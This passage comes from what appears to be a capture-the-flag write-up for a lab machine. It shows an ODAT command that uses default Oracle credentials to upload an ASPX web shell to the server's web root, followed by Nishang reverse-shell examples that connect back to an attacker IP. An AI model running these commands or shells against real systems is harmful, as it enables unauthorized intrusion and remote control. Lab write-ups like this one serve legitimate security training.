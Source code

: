```bash
SYS			       XDB_WEBSERVICES_OVER_HTTP      YES YES NO
SYS			       XDB_WEBSERVICES_WITH_PUBLIC    YES YES NO

32 rows selected.
```

## Getting WebShell

We can read and Write Files to the box. If you look at ODAT Github [image](https://github.com/quentinhardy/odat/blob/master-python3/pictures/ODAT_main_features_v2.0.jpg) it tells us which to use to upload a file. And I also mentioned `--sysdba` just to give some privileges.

```bash
root@kali:/opt/odat# python3 odat.py utlfile -s 10.10.10.82 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot 0xw0lf.aspx /usr/share/webshells/aspx/cmdasp.aspx
odat.py:52: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp

[1] (10.10.10.82:1521): Put the /usr/share/webshells/aspx/cmdasp.aspx local file in the C:\inetpub\wwwroot folder like 0xw0lf.aspx on the 10.10.10.82 server
[+] The /usr/share/webshells/aspx/cmdasp.aspx file was created on the C:\inetpub\wwwroot directory on the 10.10.10.82 server like the 0xw0lf.aspx file
```

Its working, time to get shell

![Shttps://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-silo/Untitled%202.png](Shttps://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-silo/Untitled%202.png)

I used [Nishang](https://github.com/samratashok/nishang)

> Nishang is a framework of scripts and payloads that enables using PowerShell for offensive security. By using this we can get the shell.

There is a lot of Shell I choosed `nishang/Shells/Invoke-PowerShellTcp.ps1` and copied that to my directory.

If we look at the Shell it gives us some of the examples.

```bash
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444
Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on
the given IP and port.
.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444
Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port.
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444
```

I copied one of the example and changed it to my IP and paste it in bottom of the file.
This not only load the module but also the shell give me a callback.
